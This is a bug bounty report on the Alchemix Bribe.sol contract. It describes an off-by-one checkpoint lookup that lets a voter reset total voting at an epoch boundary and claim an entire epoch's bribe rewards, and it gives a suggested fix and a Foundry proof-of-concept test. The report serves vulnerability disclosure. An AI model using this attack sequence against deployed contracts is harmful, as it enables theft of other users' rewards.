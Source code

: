 
# Wrong timestamp for totalVoting

Submitted on Mon May 06 2024 22:17:29 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30860

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Theft of unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The attacker can change `totalVoting` at the first second of a new epoch and steal all reward for an epoch.

## Vulnerability Details
```
    /// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        ...
        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```
If an attacker call `Voter.distribute` at `_lastEpochStart + DURATION`, then `Bribe.resetVoting` function is triggered and `totalVoting` is updated to `0`.
And then if the attacker call `Voter.vote` function the same params (or tokenId with less votingPower), then `Bribe._writeVotingCheckpoint` is triggered and `votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes` is updated with the new votes.
And the attacker claim the reward at the next block before other users claim.
The smaller the new vote amount, the more rewards the attacker can steal.

## Impact Details
The attacker can steal reward and other users can't claim the reward.

## Recommandation 
Bribe.sol: 268 line
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;
```
to 
```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd) - 1].votes;
```
        
## Proof of concept
## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);
    }

    function testBugPriorBalanceIndex() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;



        // go epoch 1
        goNextEpoch();

        // at start time of epoch 1
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 1000, MAXTIME, false);

        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        // totalVoting = (1 + 1000) * votingPowerPerTokenAtMaxtime = 1001 * votingPowerPerTokenAtMaxtime
        // reward expected for targetTokenId = 100K * 1 / 1001 = 100/1001 K

        // go epoch 2
        goNextEpoch();

        // at start time of epoch 2
        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // create a new token with same amount
        uint256 supportTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        // at start time of epoch 2
        voter.vote(supportTokenId, pools, weights, 0);
        // after this tx, the totalVoting = 1 * votingPowerPerTokenAtMaxtime
        // earnedAmount = 100K * 1 / 1 = 100 K
        // it means that the smaller the voting power of the supportTokenId, the more rewards it can steal.
        // but this is not calculated because of block.timestamp == _lastEpochEndthis in Bribe.sol
        //     if (block.timestamp > _lastEpochEnd) {
        //          reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        //     }
        // so the attacker waits for the next block
        hevm.warp(block.timestamp + SECONDS_PER_BLOCK);
        hevm.roll(block.number + 1);

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```